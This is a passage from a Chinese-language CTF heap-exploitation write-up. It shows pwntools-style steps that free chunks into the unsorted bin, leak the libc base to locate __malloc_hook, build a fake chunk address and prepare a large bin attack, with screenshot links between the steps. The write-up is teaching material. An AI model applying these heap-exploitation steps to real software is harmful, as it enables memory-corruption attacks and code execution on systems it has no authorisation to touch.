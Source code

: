 ```plain
delete(1)
```

[![](assets/1701612337-20e7a24c39eb53a86680cee89ccee6b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172929-f04adb06-1d71-1.png)

```plain
delete(3)
delete(5)
```

可以看到禁掉 fast bins 后，0x30 大小的chunk也进入 unsorted bin中了  
[![](assets/1701612337-bfe8abace15901e10d226cfa1124b23b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172944-f92742d2-1d71-1.png)

```plain
show(1)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak("libc_base ",libc_base)
malloc_hook=libc_base+libc.sym['__malloc_hook']
leak('malloc_hook',malloc_hook)
fake_chunk = malloc_hook - 0x50
```

[![](assets/1701612337-b322b721794a9ee07cec88181f25bb1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172959-02372202-1d72-1.png)

```plain
add(0x20)
```

在fast bins中找不到合适大小的chunk，于是遍历 unsorted bin ，把 unsorted bin 中的chunk放到对应大小的bin中（这里unsored bin中虽然有对应大小的chunk，但是正常流程是再fast bins中找到的，所以这里仍然需要遍历）  
[![](assets/1701612337-6ef09fa7fe3450b2b65f9f9fc15aab5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173020-0ef16fac-1d72-1.png)

```plain
add(0x410)  #3
delete(3)
```

申请后再次释放就链入了unsorted bin中，同时也满足了 unsorted bin 中的 chunk 比 large bin中的大  
[![](assets/1701612337-96324ceff774d08b42d148d0ebdec73a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173038-1960495e-1d72-1.png)
